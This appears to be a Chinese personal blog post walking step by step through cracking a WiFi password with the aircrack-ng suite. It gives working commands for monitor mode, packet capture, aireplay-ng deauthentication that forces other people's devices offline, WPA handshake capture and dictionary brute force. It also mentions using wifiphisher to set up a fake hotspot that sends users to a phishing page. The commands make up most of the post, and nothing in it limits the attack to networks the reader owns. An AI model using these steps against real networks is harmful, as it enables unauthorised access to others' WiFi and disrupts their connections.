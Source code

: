```yaml
---
thumbnail: https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/mito/st.jpg
title: aircrack-ng破解wifi
date: 2020-5-4
author: manu
toc: true
categories: [个人技术心得,渗透]
tags: [aircrack-ng]
---
```


但是使用wifiphisher的情况并没有我想象的那样强大，应该是我的操作问题吧，只是生成了一个假热点，并将用户重定向至钓鱼页面，并没有断开连接原来wifi的设备

在查找资料时碰到了这个工具包，有一个功能就是强制断开他人的wifi，挺有趣的记下笔记

<!-- more -->

使用前提，支持监听注入的网卡

## step1

使用`iwconfig`查看网卡加载情况

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/iwconfig.png)

## step2

`airmon-ng check kill`杀掉所有网络进程

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/kill-net.png)

如果杀掉后自动启动的话，建议使用`systemctl stop`杀得彻底些

## step3

`airmon-ng start wlp0s20f0u1`启动网卡监听模块

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/start-mon.png)

注意网卡名字会变成`wlp0s20f0u1mon`

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/monitor.png)

## step4

`airodump-ng wlp0s20f0u1mon`开始监听

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/net-monitor.png)

- PWR是信号强度，越小信号越强
- CH代表信道

## step5

`airodump-ng -c 6 --bssid 网络mac地址 -w filename wlp0s20f0u1mon`开始抓包

- -c，指的是信道CH
- --bssid，指的是AP mac地址
- -w，输出的文件路径

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/airodump-ng.png)

`STATION`代表的是设备mac，由几个mac就代表有几个设备

当有设备重新连接时，就会抓到握手包，放到`-w`指定的文件里，下一步介绍强制掉线

## step6

`aireplay-ng -0 0 -a AP_mac -c 设备mac wlp0s20f0u1mon`强制wifi掉线

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/aireplay-ng.png)

重连时就会抓到握手包

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/img/article/2020/handsnake.png)

## step7

`aircrack-ng -a2 -b AP_mac -w 字典.txt filename.cap`跑字典，爆破密码

## 参考文献

[【无线攻防】使用aircrack-ng工具破解wifi密码](https://blog.csdn.net/nuoya_1995/article/details/52402728)